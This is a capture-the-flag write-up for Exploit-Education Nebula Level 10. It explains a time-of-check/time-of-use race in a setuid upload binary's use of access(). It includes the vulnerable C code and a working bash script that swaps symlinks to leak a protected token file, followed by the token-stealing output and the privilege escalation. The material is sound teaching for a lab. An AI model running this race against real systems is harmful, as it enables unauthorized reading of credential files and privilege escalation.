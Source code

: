 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 10"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 10](https://exploit.education/nebula/level-10/)

## Challenge
The setuid binary at `/home/flag10/flag10` binary will upload any file given, as long as it meets the requirements of the 
`access()` system call.
To do this level, log in as the `level10` account with the password `level10`. Files for this level can be found in `/home/flag10`.

## Analysis
Looking at the code we can see that the binary uses port `18211` for uploading the file. Lets start a netcat listner and try
uploading a file
```bash
level10@nebula:~$ cd /home/flag10
level10@nebula:/home/flag10$ ls -la
total 14
drwxr-x--- 2 flag10 level10   93 2011-11-20 21:22 .
drwxr-xr-x 1 root   root     120 2012-08-27 07:18 ..
-rw-r--r-- 1 flag10 flag10   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag10 flag10  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag10 level10 7743 2011-11-20 21:22 flag10
-rw-r--r-- 1 flag10 flag10   675 2011-05-18 02:54 .profile
-rw------- 1 flag10 flag10    37 2011-11-20 21:22 token
level10@nebula:/home/flag10$ nc -l 18211 >> /home/level10/output &
[1] 3038
level10@nebula:/home/flag10$ echo "test" > /home/level10/test
level10@nebula:/home/flag10$ ./flag10 /home/level10/test 127.0.0.1
Connecting to 127.0.0.1:18211 .. Connected!
Sending file .. wrote file!
[1]+  Done                    nc -l 18211 >> /home/level10/output
level10@nebula:/home/flag10$ cat /home/level10/output
.oO Oo.
test
```
Alright it works. So it copies any files which we have permission to read. But we want to copy token but we don't have access
to token. 
## Vulnerability
[access() syscall vulnerability](https://linux.die.net/man/2/access)
>Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a >security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this >reason, the use of this system call should be avoided. 

So the vulnerability is that during the short interval between the `access()` syscall and the opening the file we can modify the
file such that we can read the contents of a different file.  

In the following code the system checks if we have access to the file and if we do then copies the contents of the file. There is a few
milliseconds gap between the check and the writing of the file. If we use a file which points to a file we have access to using symlink, it will pass the access `check` and then if we can change the symlink to point to the token file before the `write` we will be able to copy the contents of the token file. Lets see how we can do that.
```cpp
if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
```

## Solution
Lets write a script to use the milliseconds of gap between the `access` and `write`
```bash
level10@nebula:~$ echo "fake" >> /tmp/faketoken
level10@nebula:~$ touch sym_link
level10@nebula:~$ cat run.sh
for i in {1..1000}; do nc -l 18211 >> out; done &
for i in {1..1000}; do ln -sf /tmp/faketoken /home/level10/sym_token;ln -sf /home/flag10/token /home/level10/sym_token; done &
for i in {1..1000}; do /home/flag10/flag10 /home/level10/sym_token 127.0.0.1; done &
```

The first line keeps on starting a `netcat` listener and writes the output to a file named `out`  
The second line keeps on changing the `symlink` of `/home/level10/sym_token` form a file in `/tmp` directory to the `token` file  
The third line keeps on writing the file that is pointed to by the file `/home/leve10/sym_token`  
And within the 1000 iterations we will reach a point at which the file `/home/level10/sym_token` will point to the file in `tmp`
directory when `access` is called but will point to `token` file when `write` call is made

Lets check the contents of `out` file
```bash
level10@nebula:~$ ./run.sh
level10@nebula:~$ cat out | grep -v "o" | less
fake
fake
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
fake
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
fake
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
fake
fake
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
fake
fake
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
fake
fake
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27

```

[Your terminal might keep on writing output. In that case you will have to open a new terminal to see the output]  
Lets try logging in using the token we got    
```bash
level10@nebula:~$ cat out | grep -v "o" | less
level10@nebula:~$ su -l flag10
Password:
flag10@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Solved